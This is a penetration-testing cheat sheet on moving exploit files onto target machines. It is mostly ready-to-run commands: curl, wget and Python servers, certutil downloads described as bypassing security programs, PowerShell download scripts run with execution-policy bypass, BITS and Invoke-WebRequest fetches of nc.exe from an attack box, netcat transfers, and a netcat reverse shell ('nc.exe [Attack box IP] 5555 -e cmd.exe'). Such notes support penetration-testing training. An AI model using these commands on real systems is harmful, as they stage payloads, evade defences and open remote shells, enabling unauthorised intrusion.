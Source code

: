 # Transferring Exploits

In this section, we will discuss transferring exploits using Windows, Linux, Netcat, wget, VBScript, PowerShell and more.



## Linux Transfers

There are a number of ways to transfer using Linux:

* curl

  * `curl http://172.16.1.1:8000/exploit.exe -O` - Downloads to `exploit.exe`
  * `curl http://172.16.1.1:8000/exploit.exe -o test123.exe` - Downloads to test123.exe

* Apache2

  ```bash
  cp exploit /var/www/html # The default web root directory
  service apache2 start || systemctl start apache2
  firefox http://[IP Webserver]  || wget http://[IP Webserver]
  service stop start || systemctl stop apache2
  ```

* Python SimpleHTTPServer

  *  :exclamation: - serves all files and directories from the directory executed from. Only run from dedicated directory.
  * Python2 - `sudo python -m SimpleHTTPServer [Optional: port]`
  * Python3 - `sudo python3 -m http.server [Optional: port]`

* wget

  * `wget http://172.16.1.1:8000/exploit.exe`

## Windows Transfers

Windows systems don't have a native tool like wget, so it's a bit more difficult.
They do have tools like certutil.exe, VBScript. and PowerShell. 

* certutil - installed as part of Certificate Services.

  * :exclamation: - Used for Living Off Land as it's pre-installed, and has extra functionality like downloading.

  * :exclamation: - Can download malware bypassing security programs, and can base64 encode / decode.

  * ```shell
    certutil -urlcache -split -f [URL] [Filename.Extension]
    # -urlcache: Displays or delete URL cache entries
    # -f : Forces fetching a specific URL and updating the cache
    # -split: Split embedded ASN.1 elements, and save to files on disk
    ```

  * `certutil -urlcache -split -f http://172.16.1.3 nc.exe` - Downloads `nc.exe` to the local machine

  * ```shell
    # Base64 encode a file - this encodes nc.exe into a text file nc.txt containing the base64 contents
    certutil.exe -encode nc.exe nc.txt
    
    # Verify
    powershell -command "Get-Content nc.txt -Head 10"
    
    # Transfer
    certutil.exe -decode nc.txt nc.exe
    
    # Validate
    nc.exe [Attack box IP] 5555 -e cmd.exe
    ```

  * https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/certutil

  * https://ss64.com/nt/certutil.html

  * https://attack.mitre.org/software/S0160/

  * https://github.com/LOLBAS-Project/LOLBAS

  * Https://lolbas-project.github.io/lolbas/Binaries/Certutil

* VBScript

* PowerShell

  *  ```powershell
     # Create a simple download script
     echo $webclient = New-Object System.Net.WebClient > httpdownload.ps1
     echo $webclient.DownloadFile("[Download URL]","File Name]") >> httpdownload.ps1
     
     # Execute the script
     powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File httpdownload.ps1
     ```

  * `powershell -c "(new-object System.Net.WebClient)".DownloadFile('[Download URL]', '[File Name]')"` - One liner to achieve same effect. -c executes the following command provided.

  * :exclamation: - In order to execute Powershell scripts, the execution policy should allow scripts to be run. The default is `Restricted` which will not permit this. Verify with `Get-ExecutionPolicy` and modify with `Set-ExecutionPolicy Unrestricted` 

* PowerShell Start-BitsTransfer

  * BITS BackGround Intelligent Transfer Service. Creates a cmdlet to trasnfer files between a client and server. Allows you to limit bandwidth, process multi-downloads, set a web proxy, and can use idle network bandwidth. It must be enabled (although usually on by default), and designed to process in the background, so can wait for a running job to complete.
  * `powershell Import-Module BitsTransfer;Start-BitsTransfer -Source http://[IP Attack box]/nc.exe -Destination C:\`
  * https://technet.microsoft.com/en-us/library/dd819420.aspx
  * https://msdn.microsoft.com/en-us/library/aa362708.aspx

* PowerShell Invoke-WebRequest - requires at least PowerShell 3.0 - `powershell $PSVersionTable.PSVersion`

  * `powershell Invoke-WebRequest -Uri http://[IP Attack box]/nc.exe -OutFile C:\nc.exe`
  * https://doc.microsoft.com/en-us/powershell/module/Microsoft.PowerShell.Utility/Invoke-WebRequest?view=powershell-3.0

  

  ### Netcat

  * ```bash
    # Setup a listener first on the target
    nc -lvp 8080 > /root/Desktop/transfer.txt
    
    # Connect from the attack box
    nc 192.168.100.107 8080 < /root/Desktop/transfer.txt
    ```